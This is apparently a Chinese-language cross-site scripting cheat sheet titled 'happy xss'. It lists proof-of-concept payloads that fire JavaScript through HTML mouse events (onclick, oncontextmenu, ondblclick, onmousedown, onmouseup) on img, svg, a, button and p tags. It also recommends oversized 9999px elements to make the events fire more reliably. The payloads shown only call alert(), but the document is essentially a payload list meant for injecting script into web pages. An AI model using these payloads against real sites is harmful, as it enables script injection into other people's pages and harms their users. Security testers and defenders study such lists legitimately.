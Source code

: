 ###  ###HTML DOM 事件###

来源：[https://www.runoob.com/jsref/dom-obj-event.html](https://www.runoob.com/jsref/dom-obj-event.html)

 **happy xss** 

### 鼠标事件

***onclick*** 

```
点击鼠标左键触发。
```
poc
```
<img src=x onclick=alert(1)>
<a href='a' onclick=alert(1)>
<svg onclick=alert(1)>
<button onclick="alert()">点我</button>
```

**oncontextmenu**

```
点击鼠标右键触发，适用标签div、img、svg，建议使用img，嵌套一样width=9999px，height=9999px的图片，触发概率高。
```
poc
```
<img src=x width=9999px height=9999px oncontextmenu="alert()">

```

**ondblclick**
```
鼠标双击触发，适用标签p、img、svg等。
```

poc

```
<p ondblclick="alert()">双击这段触发一个函数</p>
<svg ondblclick="alert()">
<img src=x width=9999px height=9999px ondblclick="alert()">
```

**onmousedown,onmouseup**

```
点击鼠标左键触发，和onclick差不多。
```

poc

```
<img src=x width=9999px height=9999px onmousedown=alert(1)>
<a href='a' onmousedown=alert(1)>aaa</a>
<svg onmousedown=alert(1) width=9999px height=9999px>
<button onmousedown="alert()">点我</button>
<p onmousedown="alert()">点击触发</p>
<img src=x onmouseup=alert(1)>
<a href='a' onmouseup=alert(1)>aaa</a>
<svg onmouseup=alert(1)>
<button onmouseup="alert()">点我</button>
<p onmouseup="alert()">点击触发</p>

```
